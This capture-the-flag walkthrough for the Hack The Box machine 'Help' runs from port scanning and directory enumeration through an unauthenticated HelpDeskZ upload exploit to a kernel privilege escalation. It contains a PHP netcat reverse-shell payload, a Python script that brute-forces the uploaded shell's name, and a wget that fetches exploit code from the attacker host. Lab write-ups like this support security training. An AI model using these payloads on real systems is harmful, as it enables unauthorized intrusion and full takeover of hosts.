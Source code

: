 ## Full TCP Port Scan (Aggressive) [65s]

```bash
sudo nmap -Pn -p- -A -T4 10.129.230.159
```

```text
Starting Nmap 7.95 (https://nmap.org) at 2025-04-02 10:25 EDT
Nmap scan report for 10.129.230.159
Host is up (0.070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6
80/tcp   open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://help.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Device type: general purpose
Running: Linux 5.X
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   59.47 ms 10.10.16.1
2   31.33 ms 10.129.230.159

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 62.66 seconds
```

## Enumeration

### Port 80 (HTTP)
- Redirects to `http://help.htb`
- Add to `/etc/hosts`:
  ```bash
  echo "10.129.230.159 help.htb" | sudo tee -a /etc/hosts
  ```

### Web Directory Scanning
```bash
gobuster dir -u http://help.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
```
```text
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]
```

### HelpDeskZ (v1.0.2)
- Located at `http://help.htb/support/`
- Vulnerable to unauthenticated file upload (CVE-2015-0932)

## Exploitation

### Reverse Shell Preparation
Create `shell.php`:
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.27 1234 >/tmp/f"); ?>
```

### Exploit Script Execution
Modified Python3 script (`exploit.py`):
```python
#!/usr/bin/env python3
import hashlib
import time
import calendar
import sys
import requests

if len(sys.argv) < 3:
    print("Usage: {} <target_ip> <filename> [<time_window_in_seconds>]".format(sys.argv[0]))
    sys.exit(1)

target_ip = sys.argv[1]
fileName = sys.argv[2]
time_window = 600 if len(sys.argv) < 4 else int(sys.argv[3])

time_url = f"http://{target_ip}/support/"
base_url = f"http://{target_ip}/support/uploads/tickets/"

response = requests.head(time_url)
serverTime = response.headers['Date']
FormatTime = '%a, %d %b %Y %H:%M:%S %Z'
currentTime = int(calendar.timegm(time.strptime(serverTime, FormatTime)))

print(f"Server time (epoch): {currentTime}")
print(f"Checking over a time window of {time_window} seconds.")

for x in range(0, time_window):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext.encode()).hexdigest()
    url = base_url + md5hash + '.php'
    resp = requests.head(url)
    if resp.status_code == 200:
        print(f"Found! Shell URL: {url}")
        sys.exit(0)

print("File not found within the time window.")
```

Run the exploit:
```bash
python3 exploit.py help.htb shell.php 600
```

Start listener:
```bash
nc -lvnp 1234
```

### Reverse Shell Connection
```text
connect to [10.10.16.27] from (UNKNOWN) [10.129.230.159] 38554
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
help@help:/$ 
```

### User Flag
```bash
help@help:~$ cat user.txt
d4e4**************************
```

## Privilege Escalation

### Kernel Analysis
```bash
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
- Vulnerable to CVE-2017-16995 (Ubuntu privilege escalation)

### Kernel Exploit
Transfer exploit code:
```bash
wget http://10.10.16.27/exploit.c -O /tmp/exploit.c
```

Compile and run:
```bash
cd /tmp
gcc -o exploit exploit.c
./exploit
```

### Root Shell
```text
task_struct = ffff8800368cf000
uidptr = ffff88003701b784
spawning root shell
root@help:/tmp# 
```

### Root Flag
```bash
root@help:~# cat /root/root.txt
4e93*****************************
```
